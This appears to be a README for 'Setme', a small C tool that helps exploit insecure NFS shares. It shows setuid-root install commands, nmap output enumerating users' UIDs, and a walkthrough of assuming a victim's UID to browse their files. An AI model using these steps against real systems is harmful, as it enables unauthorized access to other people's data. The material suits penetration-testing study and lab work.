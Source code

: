 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation**
Download the file setMe.c from the repo.

Compile with:
**gcc setme.c -o setMe**
Then:
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:
sudo nmap --script=nfs-ls** victimIP
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex 
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs

Say we want to get into **mikes files**, we execute our binary with:
**./setME 1013 1013**
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**
pop@kali:/setme/$ **./setMe 1013 1013**
$ **id**
uid=1013 gid=1013 groups=1013


We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".



